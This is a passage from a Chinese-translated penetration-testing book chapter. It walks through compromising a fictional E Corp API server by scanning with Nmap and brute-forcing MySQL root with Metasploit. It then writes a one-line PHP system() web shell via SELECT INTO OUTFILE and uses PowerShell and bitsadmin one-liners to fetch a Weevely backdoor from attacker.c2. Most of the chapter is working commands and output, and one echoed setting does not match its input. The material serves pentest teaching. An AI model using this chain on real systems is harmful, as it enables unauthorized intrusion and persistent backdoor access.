








# 第三章 低 hanging fruit

客户通常会请求安全专业人员进行应用程序渗透测试。在许多项目中，测试者几乎没有或根本没有获得任何信息，这促使了黑盒测试的方法。这可能会使测试变得更加困难，特别是当开放源情报并不能提供太多帮助，或者接口并不直观或用户友好时，这在 API 中有时可能会发生。

在本章节提出的场景中，我们面对的正是在现实中经常遇到的问题。与其深入探讨 API 的内部工作原理，并试图在没有太多先验知识的情况下反向工程其功能，我们可以先寻找那些低 hanging fruit（易于获取的目标）。我们希望，通过选择安全团队少走的路，最终能够找到开放的后门，并绕过那扇四英尺厚的钢门，保护着入口。

在本章中，我们将探讨以下内容：

+   评估应用程序服务器的安全姿态，寻找替代路径来妥协

+   对服务进行暴力攻击

+   利用相邻服务中的漏洞来妥协目标

# 网络评估

我们已经在之前的章节中看到，Metasploit 的工作区功能非常有用。在接下来的项目中，我们也会利用它。首先，我们必须使用 `msfconsole` 命令从终端启动控制台。一旦 Metasploit 加载完成，它将把我们带到熟悉的 `msf >` 提示符下。

```
root@kali:~# **msfconsole**
[*] StarTing the Metasploit Framework console...
msf >
```

与所有涉及 Metasploit 的项目一样，我们首先为该范围创建一个工作空间：

```
msf > **workspace -a ecorp**
[*] Added workspace: ecorp
```

对于此场景，我们的目标是由 E Corp 提供的黑盒 API 应用程序。目标主机将是 `api.ecorp.local`。

在我们猛攻 Web 接口并尝试利用某些隐蔽漏洞之前，让我们退一步，看看 API 服务器上暴露的其他服务。我们希望，尽管开发人员可能在开发生命周期中严格审查了 API 本身并且认真对待了安全性，但在部署服务器本身时可能会犯错误。系统硬化的许多方面简直无法在源代码仓库内控制。特别是当托管目标应用程序的服务器是一个共享资源时。这增加了随着不同团队及其不同需求的互动，系统安全策略随时间放宽的可能性。可能存在一些开发实例，其控制不严格地运行在非标准端口上，或者是一个被遗忘且易受攻击的应用程序，可以为我们（作为攻击者）提供所需的访问权限，并轻松妥协目标。

和往常一样，Nmap 是我们首选的网络侦察工具，结合 Metasploit 的工作空间，它变得更强大。Metasploit 控制台的 Nmap 包装命令是 `db_nmap` 命令。我们将使用的 Nmap 切换选项，用于发现开放端口并查询服务以获取更多信息，详见以下内容。

`-sV` 选项会指示 Nmap 执行版本扫描，识别到的任何服务都会进行版本探测，`-A` 选项会为我们提供一些主机指纹信息，并尝试检测操作系统。`-T4` 选项用于告知 Nmap 在扫描网络时更具攻击性。这样可以提高扫描速度，但也有被入侵检测系统发现的风险。较低的数字（例如 `-T1`）会让扫描更为谨慎，虽然完成速度较慢，但可能会让我们在更长时间内保持隐蔽。`-Pn` 选项会阻止 Nmap 对目标执行 ping 操作。除非我们扫描广泛的地址范围并且只关注在线的主机，否则 ping 操作通常不是必需的。最后，`-p1-`（小写）是 `-p1-65535` 的简写，指示 Nmap 扫描目标上的所有端口。未命名的参数是我们的目标，`api.ecorp.local`：

```
msf > **db_nmap -sV -A -T4 -Pn -p1- api.ecorp.local**
[*] Nmap: Starting Nmap 7.40 ( https://nmap.org )
[...]
[*] Nmap: Nmap done: **1 IP address (1 host up)** scanned in 206.07 seconds
msf >
```

由于我们使用 Metasploit 的 `db_nmap` 命令包装了 Nmap 扫描，结果会自动解析并写入到我们的工作空间数据库中。扫描完成后，我们可以通过执行 `services` 命令查看数据库中的条目：

```
msf > services
Services
========
host        port   proto  name       state  info
----        ----   -----  ----       -----  ----
**10.0.5.198  80     tcp    http       open   Apache httpd 2.4.26 (Win32) OpenSSL/1.0.2l PHP/5.6.31**
**10.0.5.198  3306   tcp    mysql      open   MariaDB unauthorized**

```

看起来 MySQL 实例是可访问的，因此获取对它的访问权限将非常有价值。Nmap 将其检测为 **MariaDB** 服务，MariaDB 是 MySQL 软件的社区开发分支。如果我们运气好，实例可能是过时的，存在一些容易被利用的漏洞，能为我们提供即时访问。为了弄清楚这一点，我们可以使用数据库软件的版本号，并将其与公共 **常见漏洞和暴露**（**CVE**）列表进行比对，希望能在互联网上找到一些可利用的代码。

我们希望通过暴露的 MySQL（MariaDB）服务攻击，而不是直接通过端口 `80` 进行应用程序攻击，如图所示的攻击路径所示：



图 3.1：另一种攻击路径

## 寻找突破口

由于 Nmap 扫描没有返回特定版本，我们可以快速执行一个详细的版本探测，针对 MySQL 服务使用几个 Metasploit 命令。

首先，我们加载名为 `mysql_version` 的辅助扫描模块。使用 `use` 命令，后跟模块路径 `auxiliary/scanner/mysql/mysql_version`，即可在当前会话中加载该模块。我们可以通过执行 `show info` 命令查看关于 `mysql_version` 模块的更多信息，如下图所示：



图 3.2：mysql_version 模块信息

`基本选项:` 会列出我们需要更新的变量，以确保模块能正常执行。对于这个特定的扫描器，`RHOSTS`、`RPORT` 和 `THREADS` 参数是必需的。`RHOSTS`，即远程主机，和 `RPORT`，即远程端口，应该是显而易见的。`THREADS` 选项可以增加线程数以提高扫描速度，但由于我们只针对一个远程主机 `api.ecorp.local`，因此不需要超过一个扫描线程。

在加载模块后，我们可以将所需的 `RHOSTS` 变量设置为适当的目标。由于目标已经被 `db_nmap` 扫描过，并且结果存储在 `ecorp` 工作区中，我们可以使用 `services` 命令自动将 `RHOSTS` 变量设置为所有找到的 MySQL 服务器，如下所示：

```
msf auxiliary(mysql_version) > **services -s mysql** 
**-R**
Services
========
host        port  proto  name   state  info
----        ----  -----  ----   -----  ----
10.0.5.198  3306  tcp    mysql  open   MariaDB unauthorized
**RHOSTS => 10.0.5.198**
msf auxiliary(mysql_version) >
```

`services` 命令接受一些开关，以更好地过滤和处理结果。`services` 命令中的 `-R` 选项将当前模块的 `RHOSTS` 变量设置为查询返回的值。在这种情况下，你也可以手动输入主机，但对于更广泛的扫描，这个开关将非常方便。

还有其他方式可以查询工作区中的服务。例如，在之前的命令行输入中，我们使用了 `-s` 选项，它过滤出所有运行 MySQL 服务的主机。

如果我们知道接下来会使用其他 Metasploit 模块攻击同一主机，最好将全局 `RHOSTS` 变量设置为相同的值。这将确保在切换模块时，`RHOSTS` 值会自动填充。我们可以通过使用 `setg` 命令来实现，如下所示：

```
msf auxiliary(mysql_version) > **setg RHOSTS 10.0.5.198**
RHOSTS => 10.0.5.198
msf auxiliary(mysql_version) >
```

现在剩下的就是运行 `mysql_version` 模块，希望能够返回一些有用的信息，如下图所示：



图 3.3：在目标 RHOSTS 上运行的 mysql_version

看起来该模块成功识别了 MySQL 服务器版本。这在寻找已知漏洞时非常有用。

如果我们再执行一次 `services` 查询，你会注意到 `mysql` 服务的 info 字段已更改为 `mysql_version` 扫描的结果，如下所示：

```
msf auxiliary(mysql_version) > **services -s mysql**
Services
========
host        port  proto  name   state  info
----        ----  -----  ----   -----  ----
10.0.5.198  3306  tcp    mysql  open   5.5.5-10.1.25-MariaDB
msf auxiliary(mysql_version) >
```

在我们的 Nmap 扫描未能识别版本号时，Metasploit 成功地识别并自动更新了数据库以反映这一点。然而，经过查看 MySQL 的公开 CVE 记录后，似乎该实例并没有任何未经认证的漏洞。

回到 Kali Linux 终端，我们可以使用 `mysql` 客户端命令尝试以 `root`（`-u`）身份认证连接到 `api.ecorp.local` 主机（`-h`）：

```
root@kali:~# **mysql -uroot -hapi.ecorp.local**
ERROR 1045 (28000): Access denied for user 'root'@'attacker.c2' (using password: NO)
root@kali:~#
```

注意 `-u` 和 `-h` 开关及其对应值之间没有空格。快速检查空的 `root` 密码失败，但这证明 MySQL 服务器接受来自远程地址的连接。

## 凭证猜测

由于我们未能找到一个有效的远程漏洞用于 MySQL 实例，下一步是尝试对默认 MySQL `root` 用户进行凭证暴力破解攻击。我们将使用我们整理过的常见密码字典之一，并希望这个实例在部署时没有得到妥善的安全保护。

在 Metasploit 的帮助下，我们可以相对容易地启动一个 MySQL 登录密码猜测攻击。我们将使用 `mysql_login` 辅助扫描模块，如下所示的截图所示。这个模块有一些额外的可用选项供调整：



图 3.4：mysql_login 辅助扫描模块

在继续之前，我们将设置以下值，以使扫描更加高效，并减少一些噪音：

```
msf auxiliary(mysql_login) > **set THREADS 10**
THREADS => 10
msf auxiliary(mysql_login) > **set VERBOSE false**
VERBOSE => false
msf auxiliary(mysql_login) > **set STOP_ON_SUCCESS true**
STOP_ON_SUCCESS => true
msf auxiliary(mysql_login) >
```

增加 `THREADS` 线程数将帮助你更快地完成扫描，尽管这样可能会更加显眼。更多线程意味着更多的服务连接。如果这个主机不够强健，我们可能会将其崩溃，从而引起防御者的警觉。如果我们的目标是保持低调，我们可以只使用一个线程，但扫描将需要更长时间。`VERBOSE` 变量应设置为 `false`，因为你将测试大量密码，控制台输出可能会变得混乱。禁用冗余输出的一个额外好处是，它显著提高了扫描速度，因为 Metasploit 不需要在每次尝试后将内容输出到屏幕上。最后，设置 `STOP_ON_SUCCESS` 为 `true`，如果成功登录，我们将停止攻击。

目标 `USERNAME` 将设置为 `root`，因为默认情况下，MySQL 安装通常启用这个用户：

```
**msf auxiliary(mysql_login) > set USERNAME root**
**USERNAME => root**

```

对于字典文件，`PASS_FILE` 将设置为 `SecLists` 中的 `10-million-password-list-top-500.txt` 文件，内容如下。这是从一个包含 1000 万个密码的大字典中提取的 500 个最常见的密码：

```
msf auxiliary(mysql_login) > set PASS_FILE **~/tools/SecLists/Passwords/Common-Credentials/10-million-password-list-top-500.txt**
PASS_FILE => ~/tools/SecLists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt
msf auxiliary(mysql_login) >
```

这是一个不错的起点。还有其他不同的 1000 万密码列表文件变体，如果这个无法产生有效的登录，我们可以尝试前 1000 个、10000 个或其他字典。

与 Metasploit 中的其他模块一样，`run` 命令将开始执行：

```
msf auxiliary(mysql_login) > **run**

```

几分钟后，我们收到了一些好消息：

```
[+] 10.0.5.198:3306       - MYSQL - Success: **'root:789456123'**
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(mysql_login) >
```

看起来我们已经找到了一个有效的登录凭证，适用于与目标应用程序运行在同一台机器上的 MySQL 实例。这个数据库可能是 API 使用的数据库，也可能不是。我们将进一步检查，看看能否找到办法启动一个 shell，完全入侵 E Corp API 服务器，并间接入侵我们的目标。

我们可以再次通过 `mysql` 命令从我们的 Kali Linux 实例直接连接。`-u` 选项指定用户名，`-p` 选项让我们传入新发现的密码。选项与其值之间没有空格。如果我们省略 `-p` 的值，客户端将提示我们输入密码。

以下截图展示了成功连接到数据库服务并使用 `show databases;` SQL 查询列出可用数据库的情况：



图 3.5：成功认证连接到目标数据库

一旦连接，我们查询了可用的数据库，但似乎服务器上没有与 API 相关的内容。可能是该 API 配置为使用不同的 SQL 数据库，而我们碰巧发现了一个没有太多有趣数据的开发实例。

鉴于我们是数据库管理员 `root`，我们应该能够做很多有趣的事情，包括将任意数据写入磁盘。如果我们能做到这一点，意味着我们可能会实现远程代码执行。

### 提示

有一个 Metasploit 模块（惊讶吧）可以通过已知凭证上传可执行文件并启动反向 shell。对于 Windows 机器，`exploit/windows/mysql/mysql_payload` 可以上传一个 Meterpreter shell 并执行它，尽管它有一些缺点。一个标准的 Metasploit 有效载荷可能会被 **杀毒软件** (**AV**) 检测到，并向防守者发出警报。通过 **完全不可检测** (**FUD**) 的 Metasploit 有效载荷，可以绕过杀毒软件，但在本章的场景中，我们将选择一个更简单、风险较低的选项。

虽然 MySQL 能通过 SQL 查询语句将文件写入磁盘，但执行二进制文件实际上要复杂一些。我们不能轻易地将二进制数据写入磁盘，但可以写应用程序源代码。实现代码执行的最简单方法是在应用程序目录中写一些 PHP 代码，这样我们就能通过应用程序的 URL 执行 shell 命令。在 PHP 的帮助下，web shell 将通过 HTTP `GET` 请求接收命令并将其传递给系统 shell。

现在，让我们找出当前磁盘的位置，以便将有效载荷写入适当的 web 应用程序目录。`SHOW VARIABLES` SQL 查询可以让我们查看配置信息，而 `WHERE` 子句将输出限制为仅目录信息，如下所示：

```
MariaDB [(none)]> show variables where variable_name like **'%dir';**
+---------------------------+--------------------------------+
| Variable_name             | Value                          |
+---------------------------+--------------------------------+
| aria_sync_log_dir         | NEWFILE                        |
| basedir                   | C:/xampp/mysql                 |
| character_sets_dir        | C:\xampp\mysql\share\charsets\ |
| datadir                   | C:\xampp\mysql\data\           |
| innodb_data_home_dir      | C:\xampp\mysql\data            |
| innodb_log_arch_dir       | C:\xampp\mysql\data            |
| innodb_log_group_home_dir | C:\xampp\mysql\data            |
| innodb_tmpdir             |                                |
| lc_messages_dir           |                                |
| plugin_dir                | C:\xampp\mysql\lib\plugin\     |
| slave_load_tmpdir         | C:\xampp\tmp                   |
| tmpdir                    | C:/xampp/tmp                   |
+---------------------------+--------------------------------+
12 rows in set (0.00 sec)
MariaDB [(none)]>
```

这看起来像是 XAMPP 安装，并且根据开源文档，主网站代码应位于 `c:\xampp\htdocs\`。你可以通过快速的 `curl` 测试来确认这一点。典型的 XAMPP 安装在 `htdocs` 文件夹中有一个名为 `xampp` 的子目录。它包含一些文件，其中之一是 `.version` 文件，里面包含了你想要的内容，即 XAMPP 版本：

```
root@kali:~# **curl http://api.ecorp.local/xampp/.version**
5.6.31
root@kali:~#
```

回到 MySQL 命令行界面，我们可以尝试使用 MySQL 的 `SELECT INTO OUTFILE` 查询将数据写入该目录。如果我们能把 PHP 文件放到 `htdocs` 中的某个地方，我们应该能通过网页浏览器或 `curl` 来调用它，这样就能执行代码。

我们将使用的 `SELECT` 语句模板如下：

```
**select "[shell code]" into outfile "[/path/to/file.php]";**

```

让我们插入一些测试值，看看是否能写入目标目录，更重要的是，应用 Web 服务器是否能正确处理我们的 PHP 代码：

```
**MariaDB [(none)]> select** "<?php phpinfo();/*ECorpAppTest11251*/ ?>" into outfile "c:/xampp/htdocs/xampp/phpinfo.php";
**Query OK, 1 row affected (0.01 sec)**
**MariaDB [(none)]>**

```

### 注意

`ECorpAppTest11251` 标志作为注释添加，以防我们在测试完成后无法清理此 shell，需要向客户的蓝队报告。它还可以帮助蓝队识别可能在事件响应演练中被遗漏的文件。这并非总是必须的，但这是一个好的做法，特别是在处理高风险工件时。

这是好的：查询成功。我们可以检查 PHP 解释器是否在此目录下工作，并通过从浏览器调用它来查看文件是否成功执行，如下图所示：



图 3.6：PHP 代码成功执行

在这一阶段，我们需要获取服务器的 shell 访问权限，这样我们才能执行任意命令，而不仅仅是输出 PHP 配置数据。通过修改之前的`SELECT INTO OUTFILE`负载，可以生成一个初步的 PHP shell。PHP 有一个内置函数，方便执行任意的 shell 命令。所有服务器端的 Web 编程语言都具有此功能：如 Python、Perl、ASP、Ruby 等等。

如果我们将来自`GET`请求的数据传递给 PHP 内置的`system()`函数，我们就可以在服务器上执行任意命令。

以下是我们的 Web shell 源代码：



图 3.7：Web Shell 源代码

代码非常简单。`if`语句会检查传入的 `password` 参数的 MD5 哈希值是否与 `4fe7aa8a3013d07e292e5218c3db4944` 匹配。如果匹配，`cmd` `GET` 参数中的命令字符串将传递给 PHP 的 `system()` 函数，这样它就会作为系统命令执行，从而为我们提供 shell 访问权限。

我们要找的 MD5 值是 `ECorpAppTest11251` 的哈希值，已通过 `md5sum` Linux 命令确认：

```
root@sol:~# echo -n ECorpAppTest11251 | md5sum
**4fe7aa8a3013d07e292e5218c3db4944** -
root@sol:~#
```

为了方便地通过 MySQL 的`SELECT INTO OUTFILE`语句将 shell 代码写入磁盘，我们可以将其压缩成一行。幸运的是，PHP 对回车符不太敏感，只要代码通过分号和大括号正确分隔即可。我们可以将我们的 Web shell 压缩成以下一行：

```
<?php if (md5($_GET['password']) == **'4fe7aa8a3013d07e292e5218c3db4944')** { system($_GET['cmd']); } ?>
```

如果我们将它插入到我们的 `SELECT INTO OUTFILE` 模板中，我们应该能够将其写入 `xampp` 子目录中，该目录可以通过 Web 访问：

```
MariaDB [(none)]> select **"<?php if (md5($_GET['password']) == '4fe7aa8a3013d07e292e5218c3db4944') { system($_GET['cmd']); } ?>" into outfile "c:/xampp/htdocs/xampp/xampp.php";**
Query OK, 1 row affected (0.01 sec)
**MariaDB [(none)]>**

```

我们可以通过执行 `tasklist` 系统命令并传递 `ECorpAppTest11251` 作为密码，看到 shell 的实际操作，如下图所示：



图 3.8：应用服务器上的进程列表

这很简单。我们现在可以在应用服务器上执行任意代码。我们可以获取目标源代码，找到数据库，导出密码，后门应用，等等。

# 更好的方式来使用 shell

虽然我们已经实现了在服务器上执行代码，并有效地攻陷了应用程序（甚至更多！），但你可能有动力进一步深入挖掘。此外，到目前为止创建的 Web shell 相当简陋，执行命令时很难连续操作。如果这项测试持续数天，甚至数周，这将成为一种负担。它有点笨重，且难以操作。你可能需要传输文件、升级到交互式 shell、浏览文件系统等等。为了这些原因，以及许多其他原因，你应该升级到一个功能更强的 shell。这就是**Weevely**的作用。

Weevely 是一个默认安装在 Kali Linux 中的武器化 Web Shell，使用起来非常简单。它生成一个混淆过的、密码保护的 PHP shell，可以替代我们之前的`system()` shell 示例。Weevely 提供了一些超越传统系统传递 shell 的有用功能，包括以下内容：

+   一个熟悉的终端界面

+   网络转发

+   文件上传与下载

+   反向和直接 TCP shell

+   Meterpreter 支持

首先，我们需要通过执行`weevely generate`命令生成一个新的 shell。语法如下：

```
**root@kali:/var/www/html# weevely generate <password> </path/to/shell.php>**

```

Weevely 将在我们 Kali 机器上指定路径生成一个密码保护、混淆过的 PHP Web shell：

```
root@kali:/var/www/html# **weevely generate ECorpAppTest11251**
 **/var/www/html/shell.php**
Generated backdoor with password 'ECorpAppTest11251' in '/var/www/html/shell.php' of 742 byte size.
root@kali:/var/www/html#
```

为了快速提供新生成的 Web shell，我们可以使用一行命令在 Kali Linux 实例上启动一个临时 Web 服务器。Python 自带一个`SimpleHTTPServer`模块，可以从终端调用，来通过 HTTP 提供文件。不需要调整 Apache 或 NGINX 设置。默认情况下，`SimpleHTTPServer`模块会将当前目录的内容提供给 Web。

在与 Weevely 生成的文件`shell.php`（`/var/www/html`）相同的目录下，我们可以使用带有`-m`开关的 python 来加载`SimpleHTTPServer`模块。最后一个参数是 Web 服务器监听的端口，本例中为端口`80`：

```
root@kali:/var/www/html# **python -m SimpleHTTPServer 80**
Serving HTTP on 0.0.0.0 port 80 ...
```

困难的部分已经过去。现在我们只需通过现有的 shell `xampp.php`将`shell.php`传输到目标服务器。可以通过几种方式实现这一点。在 Linux 服务器上，`wget`几乎总是可用且易于使用。对于 Windows，你可以利用内置的`bitsadmin.exe`或更炫酷的`powershell.exe`一行命令。

我们可以利用`curl`和以下模板，在远程主机上执行 PowerShell 命令，并有效地下载一个更高级的 Weevely shell。你只需要插入合适的值：

```
curl -G "[current shell url]" --data-urlencode **"cmd=[command to execute]" &password=ECorpAppTest11251**

```

要执行的命令，在本例中将是以下内容：

```
**powershell -w hidden -noni -nop -c (new-object net.webclient).DownloadFile('http://attacker.c2/shell.php','c:\xampp\htdocs\xampp\test.php')**

```

为了悄无声息地成功执行 PowerShell 文件下载器，需要一些参数开关。`-w`开关将窗口样式设置为`hidden`，防止在执行过程中出现任何不必要的弹出窗口。`-nop`和`-noni`开关将分别禁用配置文件加载和用户交互，从而在执行下载器时提供更多的隐匿性。

`-c` 选项接收一个任意的 PowerShell 脚本块来执行。为了我们的目的，我们将创建一个新的 `Net.Webclient` 对象，并调用它的 `DownloadFile` 方法，将源和目标作为参数传递。

这个 PowerShell 一行命令示例将从 `SimpleHTTPServer` 获取 Weevely shell 内容，并将其放入应用服务器的相应 `htdocs` 目录中：

```
root@kali:/var/www/html# curl -G http://api.ecorp.local/xampp/xampp.php --data-urlencode **"password=ECorpAppTest11251& cmd=powershell -w hidden -noni -nop -c (new-object net.webclient).DownloadFile('http://attacker.c2/test.php','c:\xampp\htdocs\xampp\test.php')"**
root@kali:/var/www/html#
```

Curl 有一个 `--data-urlencode` 选项，它会将我们的命令进行 URL 编码，使其通过 HTTP 传输时不会引发任何问题。`-G` 选项确保编码后的数据通过 `GET` 请求传递。

由于 PowerShell 命令在一个独立的进程中运行，简单的 PHP shell `xampp.php` 将无法返回任何成功或失败的消息。我们可以通过尝试使用 Weevely 客户端连接到该 shell 来验证成功与否。

尽管现在不太常见，但目标 Windows 系统上可能会禁用或无法使用 PowerShell。在这种情况下，使用 `bitsadmin.exe` 下载 payload 完全可行。将正确的值插入后，我们可以抓取 Weevely shell 并将其放入 `htdocs` 文件夹。

我们将使用的 `bitsadmin` 命令模板如下：

```
**bitsadmin /transfer myjob /download /priority high [current shell url] [save location]**

```

就像 PowerShell 下载器一样，您需要在命令中展开变量，并将它们插入到 `curl` 模板中，如下所示：

```
root@kali:/var/www/html# curl -G http://api.ecorp.local/xampp/xampp.php --data-urlencode **"password=ECorpAppTest11251&cmd=bitsadmin /transfer myjob /download /priority high http://attacker.c2/shell.php c:\\xampp\\htdocs\\xampp\\test.php"**
BITSADMIN version 3.0 [ 7.5.7601 ]
BITS administration utility.
(C) Copyright 2000-2006 Microsoft Corp.
BITSAdmin is deprecated and is not guaranteed to be available in future versions of Windows.
Administrative tools for the BITS service are now provided by BITS PowerShell cmdlets.
Transfer complete.
root@kali:/var/www/html#
```

### 注意

正如 `bitsadmin` 输出中明确指出的，二进制文件已被弃用。尽管它在所有 Windows 版本中仍然可用，但将来可能不再如此。然而，企业通常更新 Windows 版本较慢，因此您可能仍然可以依赖此工具多年。

现在，Weevely 客户端应该能够连接到远程主机上的 `test.php` shell。执行此操作的语法不言自明：

```
root@kali:/var/www/html# **weevely http://api.ecorp.local/xampp/test.php ECorpAppTest11251**
[+] weevely 3.2.0
[+] Target:     ECORP-PRD-API01:C:\xampp\htdocs\xampp
[+] Session:    /root/.weevely/sessions/api.ecorp.local/test_0.session
[+] Shell:      System shell
